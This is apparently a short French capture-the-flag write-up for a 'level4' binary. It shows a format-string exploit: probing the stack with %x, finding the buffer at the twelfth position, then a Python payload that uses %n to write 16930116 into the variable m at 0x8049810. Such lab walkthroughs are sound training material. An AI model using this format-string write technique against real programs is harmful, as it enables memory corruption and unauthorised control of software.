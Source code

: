 # level4

# le début est le même que pour le level précedent mais cette fois si la variable m est comparé a 16930116

$ echo "AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x" | ./level4
AAAA b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825
$

# On voit que le buffer est a la 12e place dans la stack et donc la changer par l'adresse de m => 0x8049810

$ python -c 'print "\x10\x98\x04\x08" + "%x %x %x %x %x %x %x %x %x %x %x %x"' | ./level4
$

# on fait la même chose que pour le level3 mais avec un %d car le chiffre comparer est trop long sinon

$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' | ./level4
$
